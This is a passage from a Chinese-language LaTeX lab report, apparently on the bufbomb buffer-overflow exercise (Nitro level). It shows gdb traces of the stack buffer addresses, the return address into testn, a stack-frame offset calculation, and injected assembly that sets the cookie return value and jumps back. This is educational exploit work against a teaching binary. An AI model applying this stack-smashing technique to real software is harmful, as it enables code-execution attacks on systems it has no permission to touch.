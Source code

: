 \documentclass{paper}
\begin{document}
\begin{enumerate}
\begin{enumerate}
\begin{lstlisting}
Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$3 = 0x55683a28
(gdb) c
Continuing.
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$4 = 0x55683a78
(gdb) c
Continuing.
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$5 = 0x55683a88
\end{lstlisting}
通过上述输出可以知道，在五次调用\verb|getbufn|函数中，输入缓冲区首地址的值分别为\verb|0x55683a48|、\verb|0x55683aa8|、\verb|0x55683a28|、\verb|0x55683a78|以及\verb|0x55683a88|。经过我多次调试发现，在相同的\verb|cookie|下，本实验中循环调用\verb|getbufn|函数时，输入缓冲区首地址都为上述值，并没有随机性。

\item 查看\verb|getbufn|的返回地址

查看\verb|bufbomb.s|中\verb|getbufn|函数的返回地址：
\begin{lstlisting}
$ grep -E "call.*<getbufn>" -A1 bufbomb.s
 8048e10:       e8 ef 03 00 00          call   8049204 <getbufn>
 8048e15:       89 c3                   mov    %eax,%ebx
\end{lstlisting}
返回地址为：\verb|0x8048e15|。

\item 确定\verb|testn|中\verb|%ebp|相对与\verb|%esp|的偏移量

分析\verb|testn|函数中关于栈帧结构的代码：
\begin{lstlisting}
08048e01 <testn>:
 8048e01:	55          push   %ebp
 8048e02:	89 e5       mov    %esp,%ebp  // %ebp=%esp
 8048e04:	53          push   %ebx       // %ebp=%esp+0x4
 8048e05:	83 ec 24    sub    $0x24,%esp // %ebp=%esp+0x4+0x24
\end{lstlisting}
根据上述栈帧结构的变化，很容易知道在\verb|testn|中\verb|%ebp|相对于\verb|%esp|的偏移量为\verb|0x4+0x24=0x28|。由于在程序条用攻击代码并转跳回\verb|testn|函数的过程中，\verb|%esp|的值并不会受到攻击代码的影响，因此在恢复函数栈帧结构时只需要将\verb|%esp+0x28|赋给\verb|%ebp|即可。

\item 设计攻击代码

在攻击代码中我们首先需要将\verb|cookie|的值赋给\verb|%eax|作为\verb|getbufn|函数的返回值，接着还需要将\verb|%ebp|的值设为\verb|%esp+0x28|，最后需要转跳回\verb|testn|函数中。

攻击代码\verb|nitro.s|如下：
\begin{lstlisting}
.text
    movl $0x7b52e696, %eax // %eax = my cookie
    leal 0x28(%esp), %ebp // 恢复，%ebp=%esp+0x28
    push $0x8048e15 // 转跳回testn
    ret
\end{lstlisting}


\end{enumerate}
\end{enumerate}
\end{document}
